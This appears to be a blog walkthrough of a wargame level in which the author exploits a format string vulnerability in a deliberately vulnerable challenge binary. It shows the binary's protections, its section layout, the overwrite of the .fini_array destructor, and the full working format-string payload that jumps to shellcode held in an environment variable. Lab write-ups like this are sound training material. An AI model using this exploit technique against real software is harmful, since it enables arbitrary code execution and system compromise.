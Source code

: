 ![Logo](/assets/images/belts-yellow.png)

We'll continue with level2 of the **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). This time it will be another classic issues that needs no introduction - _uncontrolled format strings attacks_. To review the previous level, check the link below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8266
0 packages can be updated.
0 updates are security updates.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally :
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   level2
```

NX is disabled and now there *is* a stack canary. But let's not worry about this yet, because we might not even be bothered by the presence of the canary. Let's verify that the stack is executable:
```
$ readelf -lW level2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous level that ASLR is disabled on the system and all the addresses are static:

## 1 - Vulnerability

What we have here is a classic uncontrolled format string vulnerability. The value of _buf_ comes from the user and is passed directly as a format string to the _printf_ call. There are so many excellent resources on this type of issues, there is no need for further details. If you're not familiar with it, for a better understanding, please check at least the following two papers. For brevity I will skip most of the details regarding the methodlogy which can be found in those papers.
* team teso - [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* Saif El-Sherei - [Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/28476.pdf)

```c
#include <stdio.h>
#include <string.h>

__attribute__((destructor)) void end(void) {
        printf("Bye!\n");
}

void helloworld(char* name) {
        char buf[128];

        strncpy(buf, name, 127);
        buf[127] = '\0';

        printf("Hello ");
        printf(buf);
        printf("!\n");
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        helloworld(argv[1]);

        return 0;
}
```

While we're here looking at the code, see if you notice anything unusual. What about the presence of the destructor function that just prints **"Bye!"**? Couldn't that be done just as a normal _printf_ call at the end of the _main_ function? Maybe it is a hint of some sort. Keep that in mind for later!

## 2 - Exploitation

Using the techniques from the second paper mentioned above, we can read and also overwrite any memory location. Exploitation steps:
* Place a shellcode in an environment variable
* Find the address of the environment variable on the stack
* Use format string vulnerability to overwrite the address of the destructor **end** with the address of the environment variable.

To generate an apropriate shellcode and place it in an environment variable, check the previous post. To find out the address of our environment variable on the stack, again check the previous level.

First thing is to find out the address of the _end_ destructor. IDA Pro shows this really quickly if we check the **_.fini_array_** section. Notice also the permissions of this section. This is important because we want to overwrite the location of _end_ function with an address we control.

![ida destructor](/assets/images/bm2-1.png)

We can als ouse Linux tools to get the same information:

```bash
$ readelf -S  level2    
There are 30 section headers, starting at offset 0x9b8:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048134 000134 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048148 000148 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048168 000168 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        0804818c 00018c 000020 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481ac 0001ac 000080 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804822c 00022c 000074 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          080482a0 0002a0 000010 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         080482b0 0002b0 000030 00   A  6   1  4
  [ 9] .rel.dyn          REL             080482e0 0002e0 000008 08   A  5   0  4
  [10] .rel.plt          REL             080482e8 0002e8 000030 08   A  5  12  4
  [11] .init             PROGBITS        08048318 000318 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        08048340 000340 000070 04  AX  0   0 16
  [13] .text             PROGBITS        080483b0 0003b0 000242 00  AX  0   0 16
  [14] .fini             PROGBITS        080485f4 0005f4 000014 00  AX  0   0  4
  [15] .rodata           PROGBITS        08048608 000608 000028 00   A  0   0  4
  [16] .eh_frame_hdr     PROGBITS        08048630 000630 00003c 00   A  0   0  4
  [17] .eh_frame         PROGBITS        0804866c 00066c 0000f0 00   A  0   0  4
  [18] .init_array       INIT_ARRAY      0804975c 00075c 000004 00  WA  0   0  4
  [19] .fini_array       FINI_ARRAY      08049760 000760 000008 00  WA  0   0  4
  [20] .jcr              PROGBITS        08049768 000768 000004 00  WA  0   0  4
  [21] .dynamic          DYNAMIC         0804976c 00076c 0000e8 08  WA  6   0  4
  [22] .got              PROGBITS        08049854 000854 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        08049858 000858 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804987c 00087c 000008 00  WA  0   0  4
  [25] .bss              NOBITS          08049884 000884 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 000884 00002b 01  MS  0   0  1
  [27] .shstrtab         STRTAB          00000000 0008af 000106 00      0   0  1
  [28] .symtab           SYMTAB          00000000 000e68 000480 10     29  45  4
  [29] .strtab           STRTAB          00000000 0012e8 0002a1 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings)
  I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
  O (extra OS processing required) o (OS specific), p (processor specific)
```

Notice that section 19 - _.fini\_array_ is writable. Exactly what we need. And to dump the section in hex:

```bash
readelf --hex-dump=.fini_array level2

Hex dump of section '.fini_array':
  0x08049760 60840408 ad840408                   `.......
```
Second element at 0x08049764 is ad840408, or 0x080484ad - exactly the address of function **end**:
```bash
gdb-peda$ x/wx 0x08049764
0x8049764:      0x080484ad
gdb-peda$ p end
$4 = {<text variable, no debug info>} 0x80484ad <end>
```

Next we need to play a bit with the format string in order to discover how to correctly overwrite the value at address 0x08049764. More explicit details can be found in the second reference paper.  So le'ts place our shellcode in the EGG environment variable, as before and get it's address:

```bash
s$  /tmp/level2-mod aaa
Hello aaa!
EGG address: 0xffffd8d3
```

**Warning!** If you're testing your exploit in GDB first (and you should), the address of the environment variables on the stack will be slightly different. While in GDB, you can print their addresses  by iterating through the environ array. In my testcase the EGG variable was the 5h element:

```
(gdb) x/s *((char **)environ+4)
0xffffd903:     "EGG=", 'A' <repeats 19 times>
```

This means that the shellcode begins at **0xffffd903+4** we add the length of the string _EGG=_).

Finding the correct format string involved a bit of trial and error, but in the end I managed to overwrite the address of _end_ destructor with my address

## 3 - Profit

```
$ /levels/level2 $(printf "\x64\x97\x04\x08JUNK\x65\x97\x04\x08JUNK\x66\x97\x04\x08JUNK\x67\x97\x04\x08")%x%x%x%x%x%149x%n%261x%n%39x%n%256x%n
$ /home/level3/victory
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \   
                            \__/_//_/___/_/\_, /_//_/   
                                          /___/         
                            
Subject: Victory!                         
                                          
Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery ensign)
   * the exploit
   
You can now start with level3. If you want, you can log in
as level3 with password  [REDACTED]
```
